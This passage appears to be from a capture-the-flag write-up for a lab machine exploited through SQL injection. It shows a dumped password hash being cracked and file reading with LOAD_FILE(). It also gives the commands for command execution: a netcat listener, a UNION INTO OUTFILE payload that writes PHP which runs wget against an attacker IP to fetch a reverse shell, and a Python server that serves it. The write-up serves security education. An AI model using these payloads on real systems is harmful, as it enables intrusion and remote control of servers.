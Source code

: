 ![](https://miro.medium.com/max/1091/1*xKw6e8lMU__rlQeS9qzthg.png)

It worked! Now we know that the database is running on localhost, the user is DBadmin and the hash is 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0. We can crack the hash quickly using [crackstation.net](https://crackstation.net/).

![](https://miro.medium.com/max/838/1*vQs-W0NO6UBgw9PfAymmYA.png)

This is the manual version of how SQLMap found and cracked the password when we passed the “ — passwords” flag to it.

There’s another way of doing all of this using the LOAD\_FILE\(\) function. You simply pass in a file path and if MySQL has the permission to read it, it will be outputted on the screen.

![](https://miro.medium.com/max/876/1*ZZRA5ouqXlAaquu3jNnfJw.png)

This shows how dangerous it would be if MySQL was running as root. We would have been able to enumerate sensitive files on the system such as the /etc/shadow file. Unfortunately, that’s not the case for this box.

**Step 4— Command Execution**

Alright, the last step is to get command execution. Just like we can add the value “1” using a select statement, we can also add php code. However, we need to save that code into a file and then somehow call the file and execute the code.

First, get the php-reverse-shell script from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and make the relevant changes.

Second, set up a listener on your attack machine to receive that reverse shell.

```text
nc -nlvp 1234
```

Third, exploit the SQL injection to add php code into a file on the system. This involves two steps: \(1\) add php code that downloads the reverse shell script from the attack machine and saves it in a file on the target system, and \(2\) save the output of the query into a PHP file using the MYSQL INTO OUTFILE statement.

```text
9999 union select 1,(select '<?php exec(\"wget -O /var/www/html/shell.php http://10.10.14.12:5555/php-reverse-shell.php\");?>'),3,4,5,6,7 INTO OUTFILE '/var/www/html/test4.php'
```

What the above query does, is it saves the entire query \(including the PHP code\) into the file /var/www/html/test4.php. This is the root directory of the web server. So when we call the test4.php script, it will execute the php code that we included in our select statement and download the reverse shell.

Since the php code downloads the script from our attack machine, we first need to set up a simple python server.

```text
python -m SimpleHTTPServer 5555
```

Then execute the script by calling it in the browser.
